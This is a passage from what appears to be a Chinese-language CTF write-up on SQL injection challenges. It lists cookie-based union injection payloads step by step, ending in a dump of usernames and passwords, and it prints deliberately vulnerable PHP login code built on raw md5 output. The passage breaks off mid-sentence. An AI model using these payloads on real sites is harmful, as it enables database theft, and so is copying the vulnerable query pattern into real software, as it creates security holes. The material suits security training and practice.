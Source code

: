 ## 盲注
sqlmap可以跑出来，网络连接不太好容易断。
## cookie注入
在cookie后面加上了一个id=\,报错
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=\
```
得到字段长度
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=2 order by 4
```

得到显示位
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,3
```
得到表名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())
```
得到字段名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_manager_sqli8')
```
脱裤
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select id,username,password from sae_manager_sqli8
```

## 哈希后的密码是不能产生注入的

```bash

PLEASE LOGINT!<noscript><?php
include "config.php";
if(isset($_GET['userid']) && isset($_GET['pwd'])){
   $strsql="select * from `user` where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'";
    
    $conn=mysql_connect($dbhost,$username,$pwd);
    mysql_select_db($db,$conn);
    $result=mysql_query($strsql);
    print_r(mysql_error());
    $row=mysql_fetch_array($result);
    mysql_close($conn);
    echo "<pre>";
    print_r($row);
    
    echo "</pre>";
    if($row!=null){
        echo "Flag: ".$flag;
    }
    
}
else{
	echo "PLEASE LOGINT!";
}
echo "<noscript>";
echo file_get_contents(__FILE__);
```
其中最关键的语句是
